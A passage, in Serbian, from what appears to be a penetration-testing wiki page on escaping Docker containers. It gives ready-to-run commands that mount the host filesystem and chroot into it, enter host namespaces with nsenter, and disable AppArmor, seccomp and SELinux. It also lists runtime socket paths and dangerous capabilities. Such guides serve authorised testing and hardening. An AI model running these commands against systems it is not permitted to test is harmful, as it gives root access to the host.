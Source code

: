 U ovom slučaju možete koristiti redovne docker komande za komunikaciju sa docker daemon-om:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

{% hint style="info" %}
U slučaju da je **docker socket na neočekivanom mestu** i dalje možete komunicirati s njim koristeći **`docker`** komandu sa parametrom **`-H unix:///path/to/docker.sock`**
{% endhint %}

Docker daemon takođe može [slušati na portu (podrazumevano 2375, 2376)](../../../../network-services-pentesting/2375-pentesting-docker.md) ili na Systemd baziranim sistemima, komunikacija sa Docker daemonom može se odvijati preko Systemd socketa `fd://`.

{% hint style="info" %}
Dodatno, obratite pažnju na runtime sockete drugih visokonivnih runtime-ova:

* dockershim: `unix:///var/run/dockershim.sock`
* containerd: `unix:///run/containerd/containerd.sock`
* cri-o: `unix:///var/run/crio/crio.sock`
* frakti: `unix:///var/run/frakti.sock`
* rktlet: `unix:///var/run/rktlet.sock`
* ...
{% endhint %}

## Bekstvo zloupotrebe sposobnosti

Treba da proverite sposobnosti kontejnera, ako ima bilo koju od sledećih, možda ćete moći da pobegnete iz njega: **`CAP_SYS_ADMIN`**_,_ **`CAP_SYS_PTRACE`**, **`CAP_SYS_MODULE`**, **`DAC_READ_SEARCH`**, **`DAC_OVERRIDE, CAP_SYS_RAWIO`, `CAP_SYSLOG`, `CAP_NET_RAW`, `CAP_NET_ADMIN`**

Trenutne sposobnosti kontejnera možete proveriti koristeći **prethodno pomenute automatske alate** ili:

```bash
capsh --print
```

Na sledećoj stranici možete **saznati više o linux sposobnostima** i kako ih zloupotrebiti da biste pobegli/povećali privilegije:

{% content-ref url="../../linux-capabilities.md" %}
[linux-capabilities.md](../../linux-capabilities.md)
{% endcontent-ref %}

